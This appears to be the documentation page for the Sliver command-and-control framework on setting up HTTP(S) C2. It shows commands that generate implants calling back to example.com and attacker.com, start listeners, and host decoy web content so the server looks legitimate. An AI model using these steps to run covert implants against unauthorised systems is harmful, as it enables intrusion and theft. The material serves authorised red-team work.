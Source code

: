 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware (auto-detected) C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connection to each domain you specified. Subsequent attempts are made based on the `--reconnect` argument (default is every 60 seconds):

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```


## Start the Listener 

```
sliver > http
```

```
sliver > https
```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website fake-blog --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt

```

# Under the Hood




